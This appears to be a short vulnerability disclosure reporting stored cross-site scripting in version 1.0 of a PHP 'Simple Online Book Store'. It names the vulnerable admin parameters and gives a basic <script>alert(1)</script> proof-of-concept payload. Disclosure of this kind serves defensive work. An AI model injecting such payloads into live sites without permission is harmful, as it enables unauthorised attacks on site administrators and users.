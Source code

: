# Simple Online Book Store-XSS



### Date: 

> ### 2022-08/05



### Exploit Author:

> ### anx0ing@gmail.com



### Vendor Homepage: 

> [https://www.sourcecodester.com](https://www.sourcecodester.com/)



### Software Link: 

> https://www.sourcecodester.com/php/15423/simple-online-book-store-system-php-free-source-code.html



### Version: 

> ### 1.0



### /admin_book.php

`Title`、`Author`、`Description`Parameters have XSS

### /admin_add.php

> add xss code

```
<script>alert(1)</script>
```

![image-20220805020553454](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220805020553454.png)

Triggered in admin_book.php

![image-20220805021508840](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220805021508840.png)
